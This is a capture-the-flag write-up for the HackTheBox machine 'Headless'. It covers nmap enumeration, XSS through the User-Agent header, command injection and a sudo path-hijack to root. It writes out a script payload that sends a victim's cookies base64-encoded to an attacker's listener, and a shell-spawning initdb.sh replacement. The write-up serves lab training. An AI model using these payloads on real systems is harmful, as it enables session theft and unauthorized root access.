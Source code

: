 # HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><img src=".gitbook/assets/p0l1fadW3n.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/dJpadp6U8w.png" alt=""><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><img src=".gitbook/assets/WzLH2Tv47u.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Meb2HOxqwH.png" alt=""><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

This gives us root, and that's the box!
